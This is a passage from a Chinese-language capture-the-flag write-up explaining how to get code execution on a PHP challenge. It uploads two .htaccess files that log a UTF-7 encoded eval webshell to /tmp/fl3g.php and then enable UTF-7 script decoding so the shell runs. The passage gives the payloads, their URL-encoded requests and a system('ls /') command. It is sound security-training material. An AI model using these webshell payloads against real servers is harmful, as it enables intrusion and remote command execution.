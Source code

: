 总结流程如下：

```php
1）配置错误输出路径为不存在的路径让系统记录错误日志；写入shell(__halt_compiler函数用来终端编译器的执行，如果我们不带上这个函数的话包含我们的日志文件会导致500甚至崩掉)；#\用于绕过脏字符
.htaccess文件内容
php_value include_path "/tmp/xx/+ADw-?php eval($_GET[code]);__halt compiler();"
php_value error_reporting 32767
php_value error_log /tmp/fl3g.php
#\
关键字符url编码：
?filename=.htaccess&content=php_value  include_path "/tmp/%2bADw-%3fphp  eval($_GET[code]);__halt_compiler();"%0d%0aphp_value error_reporting  32767%0d%0aphp_value error_log /tmp/fl3g.php%0d%0a%23\
    
2）接着我们再访问一次触发include包含的错误路径并记录在日志中，然后我们就需要再写入一个新的.htaccess文件设置让日志中我们的UTF-7编码能够被解码，从而我们PHP代码才能被解析。
zend.multibyte决定是否开启编码的检测和解析，zend.script_encoding决定采用什么编码，所以我们需要写入的第二个.htaccess文件如下。
.htaccess文件内容
php_value include_path "/tmp"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
#\
    
关键字符url编码：   
?filename=.htaccess&content=php_value include_path "/tmp"%0d%0aphp_value  zend.multibyte 1%0d%0aphp_value zend.script_encoding "UTF-7"%0d%0a%23\
    
接着我们便可以来使用一句话了来读取flag了，http://xxxxxx:80/?code=system("ls /");
```

**需要注意的是**:题目源码说明会删除当前目录下非index.php的所有文件，所以我们再使用一句话之前必须得传一遍第二个.htaccess文件的内容(.htaccess中的设置会在PHP文件执行之前被加载，所以不用担心删除导致.htaccess在本次访问时不生效)。

**因此执行命令时可以将地址栏传参和Hackbar分开（hackbar先上传第二个htaccess文件--->地址栏传参code引动当前页面index.php，预加载hackbar传的shell--->执行shell，同时本业内代码逻辑删除上传的htaccess文件--->执行第二次命令时重复上述过程）**

![image-20231101165040526](assets/image-20231101165040526.png)